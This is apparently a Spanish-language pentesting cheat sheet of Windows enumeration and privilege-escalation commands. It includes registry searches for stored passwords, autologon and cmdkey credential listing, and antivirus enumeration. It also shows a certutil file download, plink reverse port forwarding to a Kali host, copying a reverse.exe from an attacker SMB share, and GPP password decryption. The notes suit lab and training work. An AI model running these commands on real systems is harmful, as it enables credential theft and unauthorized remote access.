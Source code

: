 ```yaml
---
title: "Tecnicas Fundamentales Windows - Apuntes-W"
date: 2023-05-05
categories: [Windows, Apuntes-W]
tags: [Windows, Easy]
image: 
  path: assets\img\imagenes\Logos-Windows.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Logos-Windows"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### Enumeración del sistema

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
### Enumeración de red

```python
ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano
```
### Búsqueda de archivos

```python
#CMD

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs
```
### Búsqueda de credenciales

```python
#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list
```
### Enumeración de antivirus

```python
sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump
```
### Enumeración con herramientas automáticas

```python
	[Release Release refs/heads/master 20230108 · carlospolop/PEASS-ng (github.com)](https://github.com/carlospolop/PEASS-ng/releases/tag/20230108)
	
	[bitsadmin/wesng: Windows Exploit Suggester - Next Generation (github.com)](https://github.com/bitsadmin/wesng)

````
## Funciones básicas

### Descarga de archivos[](#descarga-de-archivos)

```python
certutil.exe -urlcache -f <URL> <OUTPUT_FILE>
```
### Comprobación de permisos sobre un archivo

```python
accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>
```
### Ejecución de un programa como otro usuario en Powershell

```python
powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"
```
### Windows Port Forwarding

```python
plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>
```
### Transferencia de archivos mediante smb

```python
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows
```
### Desencriptado GPP

```python
gpp-decrypt "<hash>"
```
